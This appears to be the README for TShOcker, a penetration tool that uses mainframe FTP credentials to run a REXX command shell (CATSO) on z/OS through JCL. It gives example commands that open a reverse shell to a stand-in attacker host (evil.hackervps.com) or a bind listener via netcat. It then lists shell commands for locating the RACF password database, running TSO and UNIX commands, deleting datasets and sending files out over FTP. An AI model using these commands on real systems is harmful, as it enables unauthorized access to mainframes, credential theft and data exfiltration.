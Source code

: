                       .-~*~--,.   .-.
              .-~-. ./OOOOOOOOO\.'OOO`9~~-.
            .`OOOOOO.OOM.OLSONOOOOO@@OOOOOO\
           /OOOO@@@OO@@@OO@@@OOO@@@@@@@@OOOO`.
           |OO@@@WWWW@@@@OOWWW@WWWW@@@@@@@OOOO).
         .-'OO@@@@WW@@@W@WWWWWWWWOOWW@@@@@OOOOOO}     
        /OOO@@O@@@@W@@@@@OOWWWWWOOWOO@@@OOO@@@OO|
       lOOO@@@OO@@@WWWWWWW\OWWWO\WWWOOOOOO@@@O.'
        \OOO@@@OOO@@@@@@OOW\|||||\WWWW@@@@@@@O'.
         `,OO@@@OOOOOOOOOOWW\|||||\WWWW@@@@@@OOO)
          \,O@@@@@OOOOOOWWWWW\|||||\WW@@@@@OOOO.'
            `~c~8~@@@@WWW@@W\|||||||\WOO|\UO-~'
                 (OWWWWWW@/\W\|||||||\WO)
                   `~-~''     \|||\WW=*'
                             __\|||\
                             \||||||\
                              \||||__\
              TShOcker         \||\
                                \|\
                                 \|\
                                  \\
                                   \\
                                    \
                                     \

TShOcker
========

A REXX script (CATSO) wrapped in JCL, enveloped in Python. CATSO is a rexx script meant to act like a mini command interpreter for TSO and UNIX but accessible through a simple netcat and/or any TCP bind (like metasploit). Using FTP (and JES mode) this script generates the necessary JCL needed to execute the rexx script in a temporary dataset. All you need to do is get a mainframe FTP username and password and you're good to go. 


Example
========

Reverse Connection
--------------------
Terminal 1: nc -l -p 31337

Terminal 2: ./TShOcker.py -r --rhost evil.hackervps.com --rport 31337 mainframe.ftp.corp.com jsmith dumbpass

Listener
--------
./TShOcker.py -l --lport 31337 mainframe.ftp.corp.com jsmith dumbpass
nc mainframe.ftp.corp.com 31337

Enter command or 'help'> help

Core Commands
=============

* help              Help Menu
* exit              Terminate the session
* quit              Terminate the session


Filesystem Commands
===================

* cat               Show contents of dataset
* cp                copies a file to a new file
* ls                list datasets in HLQ
* delete            deletes a file
* del               also deletes a file
* lsmem             Lists files and members
                     !!WARNING!! Takes time and IO


Networking Commands
===================

* ipconfig          Display interfaces
* ifconfig          Display interfaces


System Commands
===============

* getuid            Get current user name
* sysinfo           Remote system info (i.e OS)
* racf              Show password database location
* execute           Execute a TSO command
* tso               Execute TSO command (same as execute)
* unix              UNIX command (i.e ls -al)
* ftp               Upload a file from the mainframe to an FTP server. Syntax: host/ip user pass filename [binary]

